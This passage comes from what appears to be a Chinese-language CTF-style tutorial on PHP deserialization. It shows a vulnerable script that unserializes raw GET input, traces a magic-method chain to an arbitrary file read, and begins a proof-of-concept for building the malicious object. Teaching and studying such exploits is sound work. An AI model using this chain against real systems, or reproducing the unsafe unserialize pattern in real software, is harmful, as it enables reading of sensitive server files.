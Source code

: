```php
        return $this->file_get($value);
    }
    public function file_get($value){
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
show_source(__FILE__);
$name=unserialize($_GET['strs']);
?>
```

按照前面介绍的利用思路，一步步来套用上。

**1. 寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方。**

在题目中，没有找到上面用于执行代码或命令的函数，但是在 Test::file_get() 调用 file_get_contents 读取文件内容，如果能够利用它实现任意文件读取也是可取的，因此就以 Test 类方法 file_get 为目标方法；

**2. 追踪调用第 1 步中方法的其他类方法/函数。**

看哪里调用 Test::file_get()，可以看到是 Test::get()，再往上追踪，发现是在 Test::__get() 调用的，这个 __get() 魔术方法的触发条件是：读取不可访问属性值，包括私有或未定义属性。在 Show::__toString() 中就有对未定义属性 $content 的操作，这样就会触发 __get() 方法。再往上追溯，发现 Output::__destruct() 中调用到 echo 函数可触发 __toString() ，这样就得到整个调用链如下：

![Lark20210121-180537.png](https://s0.lgstatic.com/i/image/M00/8F/EC/CgqCHmAJUuyAZXQKAAB855K4LBk536.png)  
图 2 调用链

**3. 寻找可控制第 1 步方法的参数的其他类方法函数。**

这里需要控制的是 file_get_contents($value) 中的参数 $value，依次往上追溯，发现其来自数组中的一个元素值，得到如下传播路径：

![Lark20210121-180540.png](https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUvSAaqlFAAB9jR92PEM612.png)  
图 3 参数传播路径

为了对应 Show::__toString() 中的 $this-\>str\['str'\]-\>source ，我们可以通过array('source'=\>'可控内容') 来控制 $value，即打算读取的文件路径。进一步优化下传播路径：

![Lark20210121-180543.png](https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUvuASTMYAAB-HQ644z0682.png)  
图 4 优化后的参数传播路径

**4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串。**

根据图 2 的调用链可以知道，起始的调用类在 Output，因此我们需要反序列化它。

基于前面的分析，PoC 代码如下：

```php
<?php
  class Output{
    public $test;
    public $str;
    public function __construct($name){
          $this->str = $name;
      }
      public function __destruct(){
          $this->test = $this->str;
          echo $this->test;
      }
  }
  class Show{
    public $str;
    public $source;
    public function __toString(){
          $content = $this->str['str']->source;
          return (string)$content;
      }
  }
```
